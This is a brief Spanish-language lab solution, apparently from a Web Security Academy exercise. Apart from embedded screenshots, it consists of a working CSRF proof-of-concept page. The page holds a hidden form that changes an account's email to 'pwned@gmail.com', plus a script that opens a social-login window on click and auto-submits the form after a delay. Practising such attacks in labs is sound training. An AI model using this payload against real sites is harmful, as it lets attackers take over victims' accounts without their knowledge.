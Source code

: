 
## Objetivo:

![[Pasted image 20240520001132.png]]


## Solucion:

![[Pasted image 20240520001307.png]]


![[Pasted image 20240520001203.png]]


```
<body>

<h1>Hola mundiooo</h1>

<form action="https://0ae1001903844b8f80000df0007000f5.web-security-academy.net/my-account/change-email" method="post">

<input type="hidden" name="email" value="pwned@gmail.com" />

</form>

  

<script>

window.addEventListener('click', e => {

window.open('https://0ae1001903844b8f80000df0007000f5.web-security-academy.net/social-login')

})

  

setTimeout(() => {

document.forms[0].submit()

}, 10000);

</script>

</body>
```

